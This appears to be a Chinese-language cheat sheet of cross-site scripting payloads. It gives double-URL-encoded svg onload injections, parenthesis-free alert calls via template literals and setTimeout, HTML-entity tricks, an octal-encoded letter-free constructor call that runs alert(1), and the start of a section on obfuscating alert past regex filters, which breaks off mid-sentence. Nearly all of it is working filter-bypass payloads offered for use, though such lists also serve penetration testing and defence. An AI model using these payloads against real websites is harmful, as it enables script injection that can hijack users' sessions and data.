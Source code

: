 
## 双重编码 XSS

**当应用程序对输入进行双重解码时使用**

```
%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
```



## 无括号的Alert(仅限字符串)

**在HTML攻击或Javascript注入中使用，当不允许使用括号且简单的警告框足够时**

```
alert`1`
```



## 无括号的Alert

**在HTML攻击或Javascript注入中使用，当不允许使用括号且POC（概念验证）需要返回目标信息时使用**

```javascript
setTimeout`alert\x28document.domain\x29`
setInterval`alert\x28document.domain\x29`
```



## 无括号的HTML实体

**仅在HTML注入中使用，当不允许使用括号时。在URL中将`&`替换为`%26`，将`#`替换为`%23`**

```
<svg onload=alert&lpar;1&rpar;>
<svg onload=alert&#40;1&#41>
```



## 无字母字符的alert

**当不允许使用字母字符时使用。以下是 alert(1)。**

```javascript
[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']
('\141\154\145\162\164\50\61\51')()
```



## alert混淆

**用于绕过多个正则表达式（regex）过滤器。它可以与之前提到的替代方法（上文）结合使用。最短的选项`top`也可以根据上下文替换为`window`，`parent`，`self`，或`this` **
